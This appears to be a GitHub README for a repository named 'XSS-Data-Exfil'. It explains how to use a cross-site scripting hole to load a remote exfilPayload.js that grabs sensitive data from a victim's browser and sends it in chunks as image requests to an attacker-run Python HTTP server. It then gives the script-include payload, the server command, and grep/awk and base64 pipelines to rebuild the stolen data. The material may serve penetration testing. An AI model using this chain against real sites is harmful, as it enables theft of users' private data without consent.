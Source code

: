 # XSS-Data-Exfil
Sample code for exfiltrating data through an XSS vulnerability. XSS Payload retrieves sensitive data in victim's browser, then breaks it into chunks. Sends those chunks out as image requests (data in image filename). Example commands and python script to put the original data back together. 

Will link to blog post once it's posted. 

Basically you tailor the exfilPayload.js file to grab the sensitive data your victim has access to. 

Then in you pull that JavaScript file into the browswer by doing a script include in the XSS vulnerability:
<script src="ht<span>tp://127.0.0.1/exfilPayload.js"></script>

Start up a python HTTP server in the directory whwere exfilPayload.js is:
python -m SimpleHTTPServer 80

The exfilePayload.js will send to that same server the chunks of the data being exfiltrated. 

Copy those requests into a text file, clean it up with:
grep '/exfil/' exfilledData.txt | awk -F'/exfil/' '{print $2}' | awk -F'/' '{print $1 " " $2}' | awk -F'.jpg' '{print $1}' | while read i; do echo $i ; done > exfilledDataCleaned.txt

Then use the python script in this repo.

Then you can put the chunks back together finally with:
for file in ./{0..225}.chunk; do cat $file | base64 -d; done > restoredSuperSecretData.html

The blog post should make it clearer. 

@hoodoer
